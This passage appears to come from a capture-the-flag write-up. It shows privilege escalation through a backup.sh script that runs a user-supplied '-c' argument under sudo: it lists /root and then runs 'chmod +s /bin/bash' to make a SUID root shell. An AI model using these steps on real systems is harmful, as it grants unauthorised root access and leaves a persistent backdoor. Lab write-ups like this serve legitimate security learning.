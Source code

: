 With this block of code we can submit an optional argument when running the backup.sh command:

```bash
while getopts c: flag
do
        case "${flag}" in 
                c) command=${OPTARG};;
        esac
done
```

And this block of code will execute the optional argument after all other commands have finished in the script:

```bash
cmd=$($command)
echo $cmd
```

So as a test if we try and run `ls -al /root` right now without the script we get the following:

```bash
ls: cannot open directory '/root': Permission denied
```

But if we run the same as an optional argument with the bash script like this:

```bash
sudo ./backup.sh -c "ls -al /root"
```

We get the following at the bottom of the backup script output:

```
Backup finished
total 36 drwx------ 4 root root 4096 Dec 30 2020 . drwxr-xr-x 24 root root 4096 Dec 30 2020 .. -rw------- 1 root root 2875 Dec 31 2020 .bash_history -rw-r--r-- 1 root root 3106 Oct 22 2015 .bashrc drwx------ 2 root root 4096 Aug 6 2020 .cache drwxr-xr-x 2 root root 4096 Dec 30 2020 .nano -rw-r--r-- 1 root root 148 Aug 17 2015 .profile -r-xr--r-- 1 root root 43 Dec 30 2020 root.txt -rw-r--r-- 1 root root 66 Dec 30 2020 .selected_editor
```

That proves we can run commands as root and it should be trivial to obtain a root shell at this point.

<br>

## Root Access

I decide to just change **/bin/bash** so that it has the **SUID** bit set allowing others to run it as root. The following command does this:

`sudo ./backup.sh -c "chmod +s /bin/bash"`

Checking the file to make sure that took with `ls -al /bin/bash`:

```bash
-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```
